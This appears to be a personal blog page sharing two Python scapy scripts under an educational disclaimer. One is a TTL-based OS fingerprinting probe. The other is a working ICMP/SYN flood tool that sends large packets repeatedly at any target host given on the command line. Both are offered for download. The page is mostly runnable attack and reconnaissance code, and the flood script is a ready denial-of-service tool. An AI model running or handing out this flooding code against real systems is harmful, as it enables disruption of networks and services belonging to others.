 ```yaml
---
title: Tools
date: 2024-01-01 14:00:00 +0300
categories: [scripts]
tag: [scripts,python]
---
```


# Disclamer: All the scripts i write are for educational purposes only.

### fingerprinter.py 
### a python script that uses uses ttl from tcp packet to detrmine the os of a machine
### ![image](/assets/img/ttl.png)
### Example: `python3 fingerprinter.py -H IP -sP 5555 -dP 21`

```python
from scapy.all import *
import argparse


def argument_parser():
    """Allow user to specify target host and port."""
    parser = argparse.ArgumentParser(description="Basic OS detection tool.")
    parser.add_argument("-H", "--host", help="Host IP address")
    parser.add_argument("-sP", "--sendport",help="sender port'")
    parser.add_argument("-dP", "--destport",help="destination port'")

    var_args = vars(parser.parse_args())  
    return var_args

def fingerprint(target: str, sport0: int, dport0: int):
	seq=100
	ip = IP(dst=target)
	tcp= TCP(sport= sport0, dport= dport0, flags="S", seq= seq)

	packet= ip/tcp
	synack_packet = sr1(packet ,verbose=0)
	#synack_packet.show()
	if synack_packet.ttl == 128:
		return "Windows"
	elif synack_packet.ttl == 64:
		return "Linux"

	
'''
ip= str(input("Enter the target ip: "))
sendp= int(input("Enter Sending Port: "))
destp= int(input("Enter destination Port: "))
'''

if __name__ == "__main__":
	try:
		user_args = argument_parser()
		host = str(user_args["host"])
		sport = int(user_args["sendport"])
		dport = int(user_args["destport"])
		print(f"The Host {host} OS is " + fingerprint(host, sport, dport))
	except AttributeError:
		print("Error. Please provide the command-line arguments before running.")
```
#### **download the script:** [fingerprinter.py]

[fingerprinter.py]:{{https://github.com/h0t0/h0t0.github.io}}/assets/files/fingerprinter.py

--------
### icmp_flood.py
### a simple icmp/syn flooding tool using scapy
### Example: `python3 icmp_flood.py -H IP -c 100`

```python
from scapy.all import *
import argparse


def argument_parser():
    """Allow user to specify target host and port."""
    parser = argparse.ArgumentParser(description="Basic SYN , ICMP flood script.")
    parser.add_argument("-H", "--host", help="Host IP address")
    parser.add_argument("-c", "--cycle", help="select how many times the packet is sent")

    var_args = vars(parser.parse_args())  # Convert argument namespace to dictionary
    print(var_args)
    return var_args


def icmp_flood(target: str , cycle: int, payload: int = 65000):
	ip = IP(dst=target)
	icmp = ICMP()
	raw = Raw(b"X" * payload)
	packet = ip / icmp / raw
	send(packet, count=cycle, verbose=0)
	print('send_ping(): Sent ' + str(cycle) + ' pings of ' + str(payload) + ' size to ' + target)


def syn_flood(target: str, cycle: int, dport: int,  payload: int = 65000):
	ip = IP(dst=target)
	tcp = TCP(dport= dport, flags= "S")
	raw = Raw(b"X" * payload)
	packet = ip / tcp / raw
	send(packet, count=cycle, verbose=0)
	print('send_syn(): Sent ' + str(cycle) + ' packets of ' + str(payload) + ' size to ' + target)


if __name__ == "__main__":
	try:
		user_args = argument_parser()
		host = str(user_args["host"])
		cycle = int(user_args["cycle"])

		flood_type = input("ICMP or SYN flood? ")

		if flood_type.lower() == "icmp": 
			icmp_flood(host, cycle)
		
		elif flood_type.lower() == "syn":
			dport= int(input("Enter Destination port: "))
			syn_flood(host, cycle, dport)
	
	except AttributeError:
		print("Error. Please provide the command-line arguments before running.")
```
#### **download the script** [icmp_flood.py]

[icmp_flood.py]:{{https://github.com/h0t0/h0t0.github.io}}/assets/files/icmp_flood.py
